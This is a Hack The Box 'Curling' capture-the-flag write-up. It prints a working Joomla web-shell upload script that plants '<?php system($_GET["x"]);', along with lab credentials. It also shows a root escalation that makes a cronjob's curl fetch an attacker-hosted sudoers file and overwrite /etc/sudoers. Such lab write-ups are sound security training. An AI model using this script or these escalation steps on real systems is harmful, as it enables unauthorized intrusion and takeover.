# Hack The Box: Curling machine write-up

This wasn't a really difficult machine, but rather quite easy. The beginning consisted of finding a file called secret.txt, which was the password of a user. Then, logging to an admin panel we gain RCE to get ssh credentials. Finally, a cronjob allows us to get to root. Simple! Let's start!

The machine is running on port 10.10.10.150.

### Enumeration

Firstly, I enumerate open ports to discover the services running in the machine (I added curling's IP to my ``/etc/hosts`` as access):

```sh
nmap -sV -sC -oA nmap/initial curling
```

```console
# Nmap 7.01 scan initiated Fri Nov 16 09:26:06 2018 as: nmap -sV -sC -oA nmap/initial curling
Nmap scan report for curling (10.10.10.150)
Host is up (0.028s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|_  256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov 16 09:29:17 2018 -- 1 IP address (1 host up) scanned in 190.42 seconds
```

#### Web service

*Main page*



*Discovering a user*



Since the logo of the tab was that of ``Joomla``, I tried to check if there was an admin panel. And indeed there was!

*Admin login page*



So I knew that the username was ``Floris``, I only needed to find the password. And as there was a web server and the name of the machine was curling, I decided to do a ``curl`` on the machine.

*Curl output*



Looks like we found something interesting. It turns out to be a password base64 encoded:

*Contents of secret.txt*



So credentials are ``Floris:Curling2018! ``. Then I tried to log in to the admin panel.

*Admin panel*



And we are in! Now we just need a way of getting RCE. I could have modified any PHP script in order to do so, but I found a python script that automated this for me (a bit lazy I know).

I modified it a bit to include my credentials and the URL and good to go!

```py
#!/usr/bin/env python
# joomla_shellup.py - small script to upload shell in Joomla
#
# 02.05.2017, rewrited: 27.05
# -- hint --
# To exploit this "feature" you will need valid credentials.'
# Based on latest (3.6.5-1) version.'
#   Tested also on: 3.7.x

import requests
import re

target = "http://10.10.10.150"

print '[+] Checking: ' + str(target)

# initGET
session = requests.session()
initlink = target + '/administrator/index.php'

initsend = session.get(initlink)
initresp = initsend.text

find_token = re.compile('[a-fA-F0-9]{32}')
found_token = re.findall(find_token, initresp)


if found_token:
  initToken = found_token[-1]
  print '[+] Found init token: ' + initToken

  print '[+] Preparing login request'
  data_login = {
        'username':'Floris',
        'passwd':'Curling2018!',
        'lang':'',
        'option':'com_login',
        'task':'login',
        'return':'aW5kZXgucGhw',
        initToken:'1'
  }
  data_link = initlink
  doLogin = session.post(data_link, data=data_login)
  loginResp = doLogin.text


  print '[+] At this stage we should be logged-in as an admin :)'

  uplink = target + '/administrator/index.php?option=com_templates&view=template&id=503&file=L2pzc3RyaW5ncy5waHA%3D'
  filename = 'jsstrings.php'
  print '[+] File to change: ' + str(filename)

  getnewtoken = session.get(uplink)
  getresptoken = getnewtoken.text

  newToken = re.compile('[a-fA-F0-9]{32}')
  newFound = re.findall(newToken, getresptoken)


  if newFound:
    newOneTok = newFound[-1]
    print '[+] Grabbing new token from logged-in user: ' + newOneTok

    getjs = target+'/administrator/index.php?option=com_templates&view=template&id=503&file=L2pzc3RyaW5ncy5waHA%3D'
    getjsreq = session.get(getjs)
    getjsresp = getjsreq.text

    # print getjsresp
    print '[+] Shellname: ' + filename
    shlink = target + '/administrator/index.php?option=com_templates&view=template&id=503&file=L2pzc3RyaW5ncy5waHA='
    shdata_up = {
        'jform[source]':'<?php system($_GET["x"]);',
        'task':'template.apply',
        newOneTok:'1',
        'jform[extension_id]':'503',
        'jform[filename]':'/'+filename
    }
    shreq = session.post(shlink, data=shdata_up)
    path2shell = '/templates/beez3/jsstrings.php?x=id'
    print '[+] Shell is ready to use: ' + str(path2shell)
    print '[+] Checking:'
    shreq = session.get(target + path2shell)
    shresp = shreq.text

    print shresp

print '\n[+] Module finished.'
```
*Executing the python script*



I couldn't read ``user.txt`` as I was only ``www-data`` so I decided to focus on ``password_backup``, which turns out to be a bzip2 file (by the file headers).

```console
parallels@ubuntu:~/Desktop/Curling$ cat backup.bz2
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48
```

I extracted the contents as raw hex and then wrote them in a file with a hex editor.

```console
425a6839314159265359819bbb48000017fffffc41cf05f95029617661cc3a344edccccc6e11540023ab4025f802196020180ca000921c7a8340000000000000068069883468646989a6d439ea68c800000f51a00064681a069ea190000000346900078135016e18c2d78c98874a13a00868ae19c02ab0c17d792ec23c7e9d78f53e0809f0735654c27a4886dfa2e931c856921b122133856046a2ddc1730d22b9966ed40cdb87376a3a58ea64115290ad6bb12f081381208205a5f52970c50337dbab3be000ef85f439a414885018438259be5009861e4842d513ea1c2a098c8a47ab1d20a7554072ff177245385090819bbb48
```

```console
parallels@ubuntu:~/Desktop/Curling$ file backup_hex.bz2
backup_hex.bz2: bzip2 compressed data, block size = 900k
```

I needed to decompress the data multiple times until I got the password.

*Decompressing the data to get the password*



And we get that the password is ``5d<wdCbdZu)|hChXll``.

### Getting user

At this point getting user was really easy, just log in through SSH with ``Floris:5d<wdCbdZu)|hChXll``.

*Getting user hash*



### Getting root

Getting root wasn't difficult either. I decided to have a look at ``admin-area``, where there were two files:

*Doing some recon*



The ``report`` file was just the HTML from the homepage of the blog. My guess was that there was some kind of cronjob getting the contents of the URL in ``input`` and then outputting everything to ``report``. I also noticed that the two files had been modified one minute ago, so that made my theory plausible.

I tried to modify the contents of input to get the root hash by using ``file:///root/root.txt`` and to my surprise it worked like a charm!

*Getting root hash*



### Getting to root user

I was bothered for not being able to get a root shell, so after a while I came up with something.

It basically consisted of crafting a ``sudoers`` file and serving it locally for the cronjob to get. Then, modify ``input`` in order to save the file in ``/etc/sudoers`` and just do ``sudo su`` to get root!

```
# User privilege specification
root	ALL=(ALL:ALL) ALL
floris	ALL=(ALL) NOPASSWD:ALL
```

I served it with ``python -m SimpleHTTPServer 8001`` and changed the contents of ``input`` to:

```
url = "http://10.10.15.185:8001/sudoers"
output = "/etc/sudoers"
```

*Getting root user*



Seeing the ``default.txt`` file arose my curiosity, so I decided to check the cronjob thing with ``crontab -l``:

*cronjob*



It turns out that ``curl`` can have a ``-K`` flag which supplies a configuration file. I didn't know that!

And that's all! I hope you enjoyed and learnt something useful!

---
<center><i>Diego Bernal Adelantado</i></center>
